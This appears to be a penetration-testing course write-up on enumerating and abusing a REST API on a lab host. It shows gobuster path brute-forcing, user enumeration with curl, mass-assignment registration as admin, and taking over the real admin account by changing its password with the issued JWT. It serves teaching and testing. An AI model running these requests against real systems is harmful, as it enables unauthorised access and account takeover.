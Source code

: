 
## 🛠️ 8.3.3 - Enumerating and Abusing APIs

### 🔍 1. Understanding the Target

- **Web App**: Closed-source, internally developed with REST APIs.
- **REST API**: Common for handling authentication and data ops.
- **Black-box Testing**: No documentation provided – must discover APIs manually.

---
### 🚀 2. Enumerating API Endpoints

- Use **Gobuster** to brute-force API paths:
    ```bash
    gobuster dir -u http://10.10.20.45:8080 -w /usr/share/wordlists/dirb/big.txt -p pattern
    ```
- **Pattern File** Example (`pattern`):
    ```
    {GOBUSTER}/v1
    {GOBUSTER}/v2
    ```
- Common path pattern: `/api_section/v1`

---

### 📌 3. Discovered Endpoints

- `/articles/v1`, `/accounts/v1` – status 200 = valid APIs
- `/dashboard` endpoint revealed **API documentation**

---

### 🧠 4. Gathering Sensitive Data

- Inspect endpoint with `curl`:
    ```bash
    curl -i http://10.10.20.45:8080/accounts/v1
    ```
    
- **Found users**: Includes an `admin` account.

---

### 🔎 5. Deep Endpoint Discovery

- Brute-force subpaths for admin:
    ```bash
    gobuster dir -u http://10.10.20.45:8080/accounts/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
    ```
    
- Found: `/password`, `/email` (Method Not Allowed = valid endpoints)

---

### 🛂 6. Exploring Login Functionality

- Check `/login`:
    ```bash
    curl -i http://10.10.20.45:8080/accounts/v1/login
    ```
    
- Status message: “User not found” → endpoint exists

---

### 🔐 7. Attempt Login via POST

- POST login:
    ```bash
    curl -d '{"password":"test123","username":"admin"}' \
         -H 'Content-Type: application/json' \
         http://10.10.20.45:8080/accounts/v1/login
    ```
    
- Result: Auth fails = parameters are valid
- 
---

### 🆕 8. Try to Register as Admin

- Attempt user registration:
    ```bash
    curl -d '{"password":"test123","username":"pentest","email":"evil@hacker.net","admin":"True"}' \
         -H 'Content-Type: application/json' \
         http://10.10.20.45:8080/accounts/v1/register
    ```
    
- ✅ Registered as **admin** (privilege escalation)

---

### 🔑 9. Login With New Admin

```bash
curl -d '{"password":"test123","username":"pentest"}' \
     -H 'Content-Type: application/json' \
     http://10.10.20.45:8080/accounts/v1/login
```

- 🎉 Returned a valid JWT token

---

### 🔄 10. Change Real Admin Password

- Attempt **PUT** request using the JWT:
    ```bash
    curl -X 'PUT' \
      'http://10.10.20.45:8080/accounts/v1/admin/password' \
      -H 'Content-Type: application/json' \
      -H 'Authorization: OAuth <JWT_TOKEN>' \
      -d '{"password": "owned123"}'
    ```

---

### ✅ 11. Login as Real Admin

```bash
curl -d '{"password":"owned123","username":"admin"}' \
     -H 'Content-Type: application/json' \
     http://10.10.20.45:8080/accounts/v1/login
```

- ✅ Successfully logged in as original **admin**

---

### 🧰 12. Automating with Burp Suite

- Use `--proxy` to capture curl traffic in Burp:
    ```bash
    curl ... --proxy 127.0.0.1:8080
    ```
- From **Repeater**, replay/modify requests.
- **Site Map** helps organize and replay discovered endpoints.

---

## 📚 Key Takeaways

- REST APIs often leak valuable data when misconfigured.
- 405 = exists but wrong method (try POST, PUT, PATCH).
- Privilege escalation via registration is a common dev mistake.
- Burp Suite is great for API analysis, automation, and fuzzing.

---